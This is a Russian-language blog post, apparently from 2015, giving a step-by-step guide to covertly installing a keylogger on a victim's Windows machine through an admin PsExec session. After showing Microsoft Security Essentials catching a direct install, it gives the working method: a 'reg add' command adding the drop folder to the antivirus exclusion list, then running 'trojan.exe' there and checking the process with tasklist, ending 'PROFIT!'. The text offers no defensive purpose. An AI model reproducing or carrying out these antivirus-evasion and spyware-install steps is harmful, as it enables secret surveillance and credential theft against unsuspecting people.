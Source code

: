 ```yaml
---
title: "Удалённая установка кейлоггера на компьютер с Microsoft Security Essentials или System Center Endpoint Protection"
date: 2015-02-15
---
```


**Дано:** Сессия PsExec (либо любая другая удаляющая) с администраторными привилегиями на машине жертвы. У жертвы установлен Microsoft Security Essentials либо System Center Endpoint Protection.  
**Задача:** Незаметно для жертвы установить кейлоггер.  
  
Разберём неправльный и правильный способ решения данной задачи.  
  


###  **Неправильный способ**

**  
**

Для начала проверим, что пройзойдёт, если попытаться, если попытаться установить логгер "в лоб" без всяких ухищрений. Собираем бинарник, задаём в качества рабочего директории что-нибудь неприемлемое, например  **c:\Windows\SysWOW64\WindowsPowerShell\**  
  
1\. Открываем сессию PsExec  

[![](/images/1.1.jpg)](/images/1.1.jpg)  
  


2\. Кидаем установщик логгера в директорию **c:\Windows\SysWOW64\WindowsPowerShell\**  и запускаем  

**c:\Windows\SysWOW64\WindowsPowerShell\trojan.exe**  
**  
**  


[![](/images/8.1.jpg)](/images/8.1.jpg)  


  


Ищем процесс кейлоггера

  


**tasklist /fi "IMAGENAME eq VME.exe"**

  


[![](/images/3.jpg)](/images/3.jpg)

  
  

  

Его нет. А почему? Да потому что, антивирус успешно отработал и радостно сообщил об этом жертве.

  
  

[![](/images/4.jpg)](/images/4.jpg)

  


  


[![](/images/5.jpg)](/images/5.jpg)

  

  

Опeрация провалена...

  


###  Правильный способ

  


Теперь пойдём другим путём и установим логгер в директорию, которая не будет проверяться антивирусом.  

Список исключений для Microsoft Security Essentials хранится в ключе реестра **HKLM\SOFTWARE\Microsoft\Microsoft Antimalware\Exclusions\Paths**  
  
1\. Для начала проверим его содержимое

  


**reg query "HKLM\SOFTWARE\Microsoft\Microsoft Antimalware\Exclusions\Paths"**

  


[![](/images/6.jpg)](/images/6.jpg)

  


  

2. Добавим в исключения директорию **c:\Windows\SysWOW64\WindowsPowerShell\**


**reg add "HKLM\SOFTWARE\Microsoft\Microsoft Antimalware\Exclusions\Paths" /v c:\Windows\SysWOW64\WindowsPowerShell\ /d "1" /t REG_DWORD**

  


и проверим результат

  


**reg query "HKLM\SOFTWARE\Microsoft\Microsoft Antimalware\Exclusions\Paths"**

  


  


[![](/images/7.1.jpg)](/images/7.1.jpg)

  
  
3\. Помещаем логгер в выборный нами каталог и запускаем его

  


**c:\Windows\SysWOW64\WindowsPowerShell\trojan.exe**

  


[![](/images/8.1.jpg)](/images/8.1.jpg)

  


Проверяем результат:

  


**tasklist /fi "IMAGENAME eq VME.exe"**

  


[![](/images/9.jpg)](/images/9.jpg)

  

  

PROFIT! Логгер записен, а антивирус жертвы ни о чём не подозревает
